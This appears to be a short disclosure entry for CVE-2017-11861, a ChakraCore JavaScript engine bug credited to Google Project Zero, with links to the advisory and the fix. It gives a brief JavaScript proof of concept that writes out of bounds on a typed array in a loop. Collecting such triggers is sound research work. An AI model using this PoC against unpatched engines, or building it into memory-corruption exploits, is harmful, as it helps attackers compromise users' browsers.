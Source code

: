 # CVE-2017-11861

- Fix: Nov 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function f() {
    let arr = new Uint32Array(0x1000);
    for (let i = 0; i < 0x7fffffff;) {
        arr[++i] = 0x1234;
    }
}

f();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-11861)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1343)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/85d42e7229090776c197bc742950c15d8b10e443)
